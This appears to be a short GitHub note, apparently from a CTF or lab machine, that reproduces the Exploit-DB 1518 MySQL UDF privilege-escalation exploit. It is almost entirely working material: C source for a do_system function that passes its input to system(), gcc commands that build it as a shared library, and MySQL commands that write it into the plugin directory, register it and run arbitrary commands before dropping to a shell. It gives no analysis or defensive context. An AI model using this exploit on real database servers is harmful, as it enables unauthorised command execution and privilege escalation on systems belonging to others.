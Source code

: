 
follow the instruction `https://www.exploit-db.com/exploits/1518/`


use the c code:(1518.c)


```c

#include <stdio.h>
#include <stdlib.h>
 
enum Item_result {STRING_RESULT, REAL_RESULT, INT_RESULT, ROW_RESULT};
 
typedef struct st_udf_args {
    unsigned int        arg_count;  // number of arguments
    enum Item_result    *arg_type;  // pointer to item_result
    char            **args;     // pointer to arguments
    unsigned long       *lengths;   // length of string args
    char            *maybe_null;    // 1 for maybe_null args
} UDF_ARGS;
 
typedef struct st_udf_init {
    char            maybe_null; // 1 if func can return NULL
    unsigned int        decimals;   // for real functions
    unsigned long       max_length; // for string functions
    char            *ptr;       // free ptr for func data
    char            const_item; // 0 if result is constant
} UDF_INIT;
 
int do_system(UDF_INIT *initid, UDF_ARGS *args, char *is_null, char *error)
{
    if (args->arg_count != 1)
        return(0);
 
    system(args->args[0]);
 
    return(0);
}
 
char do_system_init(UDF_INIT *initid, UDF_ARGS *args, char *message)
{
    return(0);
}

```



```
gcc -g -c 1518.c
gcc -g -shared -Wl,-soname,1518.so -o 1518.so 1518.o -lc
```
in mysql

```
mysql> use mysql
mysql> create table foo(line blob);
mysql> insert into foo values(load_file('/tmp/1518.so'));
mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/1518.so';
mysql> create function do_system returns integer soname '1518.so';
mysql> select * from mysql.func;
mysql> select do_system('id > /tmp/out; chown smeagol.smeagol /tmp/out');
mysql> \! sh
$ cat /tmp/out
```
